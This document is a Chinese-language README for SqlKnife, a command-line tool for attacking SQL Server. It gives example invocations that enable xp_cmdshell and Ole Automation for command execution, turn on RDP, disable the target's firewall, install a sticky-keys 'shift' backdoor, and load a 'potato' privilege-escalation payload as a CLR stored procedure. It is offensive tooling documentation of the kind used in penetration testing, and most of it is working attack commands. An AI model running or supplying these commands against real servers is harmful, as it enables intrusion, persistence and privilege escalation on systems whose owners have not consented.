# SqlKnife

适合在命令行中使用的轻巧的SQL Server数据库攻击工具。

## 参数说明



```
 <-H host> <-P port> <-u username> <-p password> <-D dbname> <--openrdp> <--shift> <--disfw> <--xpcmd> <--oacreate> <--dbup> <--fix> <--remove> <--3/--4>
```

-H 目标ip，默认127.0.0.1

-P 端口，默认1433

-u 用户名，默认sa

-p 密码，默认为空字符串

-D 数据库名，默认master

-c 要执行的命令

--openrdp 开启目标远程桌面并读取当前远程桌面端口号

--shift 创建shfit后门

--disfw 关闭目标防火墙

--xpcmd 与-c参数结合使用，利用xp_cmdshell执行命令

--oacreate 与-c参数结合使用，利用Ole Automation Procedures执行命令（无回显）

--fix 与xpcmd或者oacreate结合使用，启用存储过程

--3/--4 使用什么版本的clr payload 默认为4.0

--remove 把程序集清理掉并且禁用相关功能

## 示例

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix





#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami



#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix



#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe




### 开RDP，关防火墙加规则（开RDP时自动加），装shift后门

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp





#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）



#### 装shift后门

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift





### PotatoInSQL(--dbup)
将土豆提权作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3






#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami




### 启用/还原配置功能



做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload